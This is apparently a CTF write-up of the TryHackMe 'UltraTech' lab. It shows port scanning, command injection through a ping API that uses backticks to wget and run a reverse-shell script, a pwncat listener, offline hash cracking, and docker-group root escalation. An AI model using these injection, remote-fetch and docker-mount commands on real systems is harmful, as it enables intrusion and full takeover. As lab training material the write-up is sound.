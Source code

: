 ```yaml
---
layout: post
title: UltraTech Writeup
date: 2020-08-20 11:00:00 +5:30
categories: [TryHackMe, Medium]
image: /assets/img/ultratech/header.png
tags: [tryhackme, docker, Enumeration, web] # add tag
---
```


## Description:

The Following Post is writeup of UltraTech room of tryhackme <https://tryhackme.com/room/ultratech1>

|Machine|Details
|:---|:--
|OS | Linux
|Rating | Medium
|Creator | lp1

## Summary:

  The room have only 4 ports open 21,22,8081,31331 we can see webpage in 31331 and login api in 8081.
  Webpage have few hidden pages and a code api.js we can get reverse shell using ping command which js executes.
  After shell we got the open database and after cracking hashes we will get user.
  The user have docker permissions so GTFObins and root.

## Walkthrough:

### Enumeration

As usual
Lets start with nmap scan
```terminal
┌─[silver@parrot]─[~/Desktop/tryhackme/ultratech]
└──╼ $nmap -sC -sV 10.10.70.180
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-14 03:48 EDT
Nmap scan report for 10.10.70.180
Host is up (0.37s latency).

PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 dc:66:89:85:e7:05:c2:a5:da:7f:01:20:3a:13:fc:27 (RSA)
|   256 c3:67:dd:26:fa:0c:56:92:f3:5b:a0:b3:8d:6d:20:ab (ECDSA)
|_  256 11:9b:5a:d6:ff:2f:e4:49:d2:b5:17:36:0e:2f:1d:2f (ED25519)
8081/tcp open  http    Node.js Express framework
|_http-cors: HEAD GET POST PUT DELETE PATCH
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
I missed something it looks like so went back to enum with masscan

```terminal
└──╼ $sudo masscan -i tun0 -p 0-65535 10.10.107.93

Starting masscan 1.0.5 (http://bit.ly/14GZzcT) at 2020-08-20 06:24:53 GMT
 -- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [65536 ports/host]
Discovered open port 31331/tcp on 10.10.107.93                                 
Discovered open port 8081/tcp on 10.10.107.93                                  
Discovered open port 21/tcp on 10.10.107.93                                    
Discovered open port 22/tcp on 10.10.107.93
```

#### Webpage

Ah gotcha port 31331 have web page.<br />
![Webpage](/assets/img/ultratech/webpage.png)<br />
Let's enum a bit

Got robots.txt
```yaml
Allow: *
User-Agent: *
Sitemap: /utech_sitemap.txt
```
Sitemap.txt
```yaml
/
/index.html
/what.html
/partners.html
```

We can see login portal in partners.html on trying auth it redirect  us to 8081 page with /auth.
let's check how this api is handled.

![JS](/assets/img/ultratech/js.png)

we can see api.js let's check.

![api.js](/assets/img/ultratech/apijs.png)

### Exploitation:

Now we know the js first check by pinging the host.
This is potential command injection we just have to replace the ping with a command.

![whoami](/assets/img/ultratech/pingwhoami.png)

Ah we can see it got executed.

let's get a reverse shell using

made a file and wget it to the machine and execute it
```terminal
curl http://10.10.190.208:8081/ping?ip=`wget ip/cmd.sh`  
curl http://10.10.190.208:8081/ping?ip=`bash%20./cmd.sh`
```
```terminal
└──╼ $pwncat --listen --port 4444
bound to 0.0.0.0:4444 ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━[11:00:54] received connection from 10.10.190.208:58502                                                                 connect.py:149
[11:00:57] new host w/ hash f3ffe57d520772919cc2b2bb75c3c44c                                                             victim.py:328
[11:01:14] pwncat running in /bin/sh                                                                                     victim.py:362
initializing: complete ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0%
[11:01:21] pwncat is ready 🐈                                                                                            victim.py:758


\[\033[01;31m\](remote)\[\033[00m\] \[\033[01;33m\]\u@\h\[\033[00m\]:\[\033[01;36m\]\w\[\033[00m\]$

```
Alright got shell as www user and we can see the db file.
![DB](/assets/img/ultratech/techdb.png)

Got the hashes, move to cracking.
![Cracking](/assets/img/ultratech/hashcracked.png)

Yessss got r00t user let's see what we can do with it.

```terminal
r00t@ultratech-prod:/tmp$ id
uid=1001(r00t) gid=1001(r00t) groups=1001(r00t),116(docker)

so we can see docker privesc time

r00t@ultratech-prod:/tmp$ docker run -v /:/mnt --rm -it bash chroot /mnt sh      
```

rooted Ultratech :)
